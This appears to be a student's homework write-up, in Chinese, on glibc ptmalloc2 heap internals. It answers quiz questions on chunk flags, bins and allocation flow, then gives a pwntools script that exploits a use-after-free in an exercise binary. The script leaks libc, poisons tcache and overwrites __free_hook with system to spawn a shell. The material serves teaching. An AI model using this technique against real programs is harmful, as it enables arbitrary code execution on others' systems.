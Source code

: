 1. chunk作为内存分配的最小单元，其数据结构中包含三个标志位，这三个标志分别是什么？（5
   分）分别有什么作用？（5分）

   __N:是否属于主线程   M:是否由mmap分配   P:前一个chunk是否在使用状态__

2. 假设现在用户程序中调用 malloc(0x37) 来申请动态内存，最终得到的chunk大小是多少？（5分）实际上该chunk可用的数据区域有多大？（5分）

   __0x40   0x38__

3. ptmalloc2同过各种bins来管理释放的堆块（freed chunk），这些bins分别是什么？（5分）管理的chunk的大小范围是多少？（5分）其中哪些是通过双向链表组织，哪些通过单向链表组织（5分）

- **fast bin     [0x20, 0x80]    单向链表**
- **unsorted bin   无限制      双向链表**
- **small bin   [0x20, 0x400)   双向链表**
-  **large bin    [0x400, +∞）  双向链表**
- **tcache bin    [0x20, 0x80]    单向链表**
4. 简述tcache bin和fastbin两者的区别，列出两点即可。（名字不同不算 : ) ）（5分）

- **tcache bin有count，且每个大小的bin中存放的chunk的个数有限**
- **tanche bin优先级高于fast bin**

4. 在 malloc 的流程中，假设堆管理器在tcache bin和fastbin中均没有成功找到合适的chunk，请问下一步应该从哪个bin中搜索？（5分）假如所有的bins中都找不合适的chunk，请问这个时候从哪里获取合适的chunk？（5分）（假定 malloc 申请的内存空间大小足够小，单线程，不考虑mmap的情况）

​      __unsorted bin       top chunk__

5. 在 free 的流程中，假定chunk的大小为0x60，且此时tcache bin和fastbin都是空的，请问这个chunk会插入到哪个bin中？（5分）假定chunk的大小为0x500，怎么判断该chunk能不能进行前向合并的操作？（5分）（单线程，不考虑mmap的情况

​       __tcache bin    通过chunk的prev_inuse标志位检查是否能向前合并__

![image-20220714223606529](C:\Users\CurryRaid\AppData\Roaming\Typora\typora-user-images\image-20220714223606529.png)

```py
from pwn import *
context.arch = 'amd64'
#context.log_level = 'debug'
p = process("./hw3_1")
elf=ELF('./hw3_1')
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
sys_add1=libc.symbols['system']
def add(index, size):
    p.sendlineafter(">> ", "1")
    p.sendlineafter("Index: ", str(index))
    p.sendlineafter("Size: ", str(size))
def show(index):
    p.sendlineafter(">> ", "2")
    p.sendlineafter("Index: ", str(index))
def edit(index, content):
    p.sendlineafter(">> ", "3")
    p.sendlineafter("Index: ", str(index))
    p.sendafter("Content: ", content)
def delete(index):
    p.sendlineafter(">> ", "4")
    p.sendlineafter("Index: ", str(index))


# First, leak the libc address
add(0, 0x500)
add(1, 0x20)
delete(0)
show(0) # Here, we will get the the value of the chunk's fd
main_arena_offset = u64(p.recv(6) + b"\x00" * 2)
#gdb.attach(p)
libc_base = main_arena_offset - 0x7f1534976be0 + 0x7f153478b000 
#print(hex(libc.symbols['__free_hook']))
__free_hook = libc_base +libc.symbols['__free_hook']
print(hex(__free_hook))
system = libc_base + libc.symbols['system']
# Second, use UAF to hijack tcache bin linked list
add(0, 0x18) # parr[0] = malloc(0x18)
add(1, 0x18) # parr[1] = malloc(0x18)
delete(0)
delete(1)
edit(1, p64(__free_hook))
# Third, hijack __free_hook into system and trigger __free_hook
add(0, 0x18)
add(1, 0x18)
edit(0, "/bin/sh\x00")
edit(1,p64(system))
# Finally, trigger __free_hook
delete(0)
#print("main_arena_offset: %s" % hex(main_arena_offset))
p.interactive()
```

